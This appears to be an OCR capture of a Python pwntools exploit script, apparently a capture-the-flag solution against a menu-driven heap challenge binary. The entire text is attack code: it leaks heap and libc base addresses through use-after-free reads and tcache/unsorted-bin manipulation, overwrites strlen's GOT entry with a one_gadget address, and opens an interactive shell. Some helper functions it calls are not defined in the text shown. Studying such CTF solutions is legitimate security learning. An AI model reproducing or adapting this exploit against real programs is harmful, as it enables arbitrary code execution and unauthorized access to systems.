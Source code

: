 ```python
def show():
    r.sendlineafter(b'> ', b'2')
def exit():
    r.sendlineafter(b'> ', b'0')

# intro
edit_array([], 4)

# leak heap_base
edit_array([0], 1)
edit_value([1], b'A' * 0x28, False)
delete([0, 1])
edit_value([0, 1], b'asdf', False)
show()
r.recvuntil(b'<S> ')
heap_base = u64(r.recvn(6) + b'\x00' * 2) - 0x430
print(hex(heap_base))

# make unsorted_bin
edit_array([2], 9)
for i in range(9):
    edit_array([2, i], 8) #make lots chunk for free
for i in range(7):
    delete([2, i]) #make full tcache bins
delete([2, 7]) #have main_arena addr

#leak libc_base
edit_value([1], p64(heap_base + 0x340) + b'X' * 0x8 + p64(0x20) + p64(heap_base + 0x8e0), True)
s_for_leak = edit_value([0,1], b'asdf', True)
libc_base = u64(s_for_leak + b'\x00' * 2) - 0x21ace0
print(hex(libc_base))

#strlen_got -> one_gadget
edit_value([1], p64(heap_base + 0x340) + b'X' * 0x8 + p64(0x20) + p64(libc_base + 0x21a098), True)
edit_value([0, 1], p64(libc_base + 0xebc88), True)

#get shell
exit()

r.interactive()
```